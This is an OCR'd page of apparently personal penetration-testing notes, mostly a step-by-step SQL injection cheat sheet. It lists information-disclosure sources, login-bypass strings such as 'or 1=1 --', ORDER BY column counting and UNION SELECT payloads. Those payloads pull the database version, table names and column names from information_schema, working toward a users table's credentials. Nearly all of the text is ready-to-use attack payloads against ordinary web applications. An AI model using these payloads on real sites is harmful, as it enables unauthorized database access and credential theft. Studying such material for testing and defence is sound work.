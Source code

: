 • 

- info disclose:
- phpinfo.php through comments
- error messages(through url,,source code..etc)
- robots.txt or dir listing(index of)
- more sensitive files..
- -------------------------------------------------------------------
- SQL:
- GET/POST request injecting point,from address bar,from within app field and through queries and searches
- can be also performe operation on bd include INSERT<SELCT<UPDATE<DELTE<DROP
- 'blah' or 1=1 --' AND Password=Springfield'
- blah' UNION Select 0,username,password, 0 from users --

• 

- ----------------------------
- check fo SQL injection:
- id= 1'
- id= 1' or 1='1 
- id= 1' or 1=1#
- SELECT first\_name, last\_name FROM users WHERE user\_id = '$id';
- SELECT first\_name, last\_name FROM users WHERE user\_id = '1' or 1='1';
- SELECT first\_name, last\_name FROM users WHERE user\_id = '1' or 1=1#';
- ----------------------------
- check for Tables/Numbers of columns in current table(ORDER BY):
- id= 1' ORDER BY 1# (checkking if 1 column is present or not)
- id= 1' ORDER BY 1,2# (checkking if 2 column is present or not)  ...do this till then you found error
- ----------------------------
- Finding reflections of output
- id= 1' UNION SELECT 1,2,3,4#   (union is used to combine to query and run it simultaneously)
- SELECT first\_name, last\_name FROM users WHERE user\_id = '1' UNION SELECT 1,2,3,4#;
- ----------------------------
- Extracting Sensitive Information:
- Common commands: version(),user(),@@hostname(),database()
- 1' union select version(),2#
- 1' union select database(),2,3,4,5,6#
- ----------------------------
- List Table names:
- 1' UNION SELECT 1,table\_name,3,4,5,6,7 from information\_schema.tables#

• 

- List Columns:
- 1' UNION SELECT 1,column\_name,3,4,5,6,7 from information\_schema.columns (for all tables listing)
- 1' UNION SELECT 1,column\_name,3,4,5,6,7 from information\_schema.columns where table\_name='$TABLE\_NAMES$'#(for particular table listing)
- 1' UNION SELECT 1,column\_name,3,4,5,6,7 from information\_schema.columns where table\_name='users'#

• 
